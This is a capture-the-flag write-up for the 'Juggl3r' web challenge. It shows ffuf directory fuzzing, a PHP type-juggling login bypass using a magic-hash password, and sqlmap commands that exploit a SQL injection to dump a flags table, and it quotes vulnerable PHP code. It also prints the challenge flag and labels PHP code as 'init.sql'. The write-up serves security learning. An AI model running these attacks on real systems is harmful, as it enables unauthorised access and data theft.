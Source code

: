 ```yaml
---
title: "Juggl3r"
summary: "Juggler challenge from blockctf"
categories: ["Blockctf","Blog",]
tags: ["Blockctf","web"]
#externalUrl: ""
#showSummary: true
date: 2024-11-18
draft: false
---
```



# **Challenge Description**

- **Name:** Juggl3r
- **Category:** Web Exploitation
- **Points:** 200
- **Challenge Description:**  
    The admin panel seems locked behind some odd logic, and the flag is hidden deep. Can you bypass the checks and uncover the secret?  
    URL: [[http://54.85.45.101:8080/](http://54.85.45.101:8080/)]

---

# Solution

## enumeration

To begin, I scanned the target for directories and files using `ffuf`.
```shell
ffuf -u http://54.85.45.101:8080/FUZZ -ac -w /home/wordlists/SecLists/Discovery/Web-Content/combined_words.txt
```
![[Pasted image 20241114151734.png]]
**Result:**  
The scan revealed a `/src` directory that indexed several files. Among them, `config.php` and `init.sql` stood out as interesting.

- `config.php`: Empty.
- `init.sql`: Contained SQL instructions and sensitive data.
![[Pasted image 20241114152221.png]]

Here is the content of `init.sql`:
```php

if (isset($_GET['user_id'])) {
    $user_id = $_GET['user_id'];

    $sql = "SELECT * FROM users WHERE id = $user_id";
    $stmt = $conn->query($sql);

    if ($stmt && $user = $stmt->fetch()) {
        $message = "User found: " . htmlspecialchars($user['username']);
    } else {
        $message = "User not found.";
    }
} else {
    $message = "Please provide a user ID.";
}
```

## PHP Type Juggling Vulnerability

The `admin` user’s hash (`0e662...`) raised a red flag. This format is often indicative of a PHP type juggling vulnerability, especially when combined with weak comparison logic. The challenge name, "Juggl3r," further hinted at this issue.

### What is PHP Type Juggling?

PHP’s loose comparison (`==`) can interpret strings that start with `0e` as scientific notation (`0e+...`), which equals zero. If both a user-provided string and a stored hash evaluate to the same numeric value (`0`), the comparison will succeed.

### Exploitation

Researching SHA-256 "magic hashes" led me to a payload that produces the same hash as `0e662...`:

- **Username:** `admin`
- **Password:** `TyNOQHUS`

I logged in successfully with these credentials, accessing the admin panel.

---

## SQL Injection on `admin.php`

Once inside, I noticed that the admin panel’s URL included a `user_id` parameter:
```
http://54.85.45.101:8080/admin.php?user_id=1
```
![[Pasted image 20241119135439.png]]

By reviewing the `/src/admin.php` file, I discovered the following vulnerable code:

```php

$sql = "SELECT * FROM users WHERE id = $user_id";
$stmt = $conn->query($sql);

```

The query concatenates user input directly, making it susceptible to SQL Injection (SQLi). Using `sqlmap`, I automated the exploitation to enumerate databases and dump sensitive information.

### SQLi Steps

1. **Enumerate Databases:**
    
    ```shell
    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." --dbs
    ```
    
    ![[Pasted image 20241114161202.png]]
    
2. **Enumerate Tables in `ctf_challenge`:**
    
    ```shell
    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." -D ctf_challenge --tables
	```
    
    ![[Pasted image 20241114161128.png]]
    
3. **Dump the Flag:**
    
    ```shell

    sqlmap -u "http://54.85.45.101:8080/admin.php?user_id=1" --cookie="PHPSESSID=..." -D ctf_challenge -T flags --dump

    ```
    
    ![[Pasted image 20241114161051.png]]

---

# Flag

flag{juggl3_inject}

---

### **Key Takeaways**

1. **PHP Type Juggling:**  
    Always use strict comparison (`===`) to avoid vulnerabilities when handling user input and hashes.
    
2. **SQL Injection Prevention:**
    
    - Use prepared statements or parameterized queries.
    - Sanitize and validate user inputs.

---

### **References**

- OWASP: PHP Type Juggling
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)